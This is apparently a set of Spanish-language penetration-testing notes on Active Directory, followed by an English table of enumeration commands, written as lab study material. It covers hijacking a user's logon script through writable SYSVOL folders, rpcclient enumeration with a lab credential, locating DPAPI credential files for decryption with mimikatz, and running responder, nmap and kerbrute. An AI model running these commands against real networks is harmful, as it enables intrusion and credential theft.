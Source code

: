 En la enumeracion, podemos ver los scripts de dominio y encontrar permisos de escritura dentro de alguna de las carpetas a algun usuario que tengamos
```s
cd Windows\sysvol\domain\scripts
icacls 11DBDAEB100D
icacls A2BFDCF13BB2
icacls A32FF3AEAA23
```
Ahora solo tendriamos que cambiar los permisos del exploit.bat
```s
Set-ADUser -Identity SSA_6010 -ScriptPath "exploit.bat"
```

Podemos usar una tool que nos sugiere como explotar un cve para la escalada d elos privilegios
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#Primero instalamos las dependencias
python -m pip install xlrd
#Actualizamos la base de datos con 
windows-exploit-suggester.py --update

Si tenemos contrasenas y usuarios validos, podemos intentar una conexion con rpcclient
```s
rpcclient 10.129.232.227 -U 'SVC_TGS%GPPstillStandingStrong2k18'
rpcclient 10.129.232.227 -U 'SVC_TGS%GPPstillStandingStrong2k18' -c 'enumdomusers'

enumdomgroups
querygroupmem [rid]
queryuser [rid]
querydispinfo
```

## [](#header-2)<a id="Post_priv_escalation">Post priv escalation</a>


Las credential filenames tienen una cadena de 32 caracteres como por ejemplo: "85E671988F9A2D1981A4B6791F9A4EE8" y las masterkeys son un GUID como "cc6eb538-28f1-4ab4-adf2-f5594e88f0b2", para encontrarlas tenemos el comando:
```shell
cmd /c "dir /S /AS C:\Users\security\AppData\Local\Microsoft\Vault & dir /S /AS C:\Users\security\AppData\Local\Microsoft\Credentials & dir /S /AS C:\Users\security\AppData\Local\Microsoft\Protect  & dir /S /AS C:\Users\security\AppData\Roaming\Microsoft\Vault & dir /S /AS C:\Users\security\AppData\Roaming\Microsoft\Credentials & dir /S /AS C:\Users\security\AppData\Roaming\Microsoft\Protect"
```
Las credenciales y masterkey estan en base64, podemos regresarlas a su orden normal con mimikats https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials


# Initial Enumeration 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `nslookup ns1.inlanefreight.com`                             | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
| `sudo tcpdump -i ens224`                                     | Used to start capturing network packets on the network interface proceeding the `-i` option a Linux-based host. |
| `sudo responder -I ens224 -A`                                | Used to start responding to & analyzing `LLMNR`, `NBT-NS` and `MDNS` queries on the interface specified proceeding the` -I` option and operating in `Passive Analysis` mode which is activated using `-A`. Performed from a Linux-based host |
| `fping -asgq 172.16.5.0/23`                                  | Performs a ping sweep on the specified network segment from a Linux-based host. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an nmap scan that with OS detection, version detection, script scanning, and traceroute enabled (`-A`) based on a list of hosts (`hosts.txt`) specified in the file proceeding `-iL`. Then outputs the scan results to the file specified after the `-oN`option. Performed from a Linux-based host |
| `sudo git clone https://github.com/ropnop/kerbrute.git`      | Uses `git` to clone the kerbrute tool from a Linux-based host. |
| `make help`                                                  | Used to list compiling options that are possible with `make` from a Linux-based host. |
| `sudo make all`                                              | Used to compile a `Kerbrute` binary for multiple OS platforms and CPU architectures. |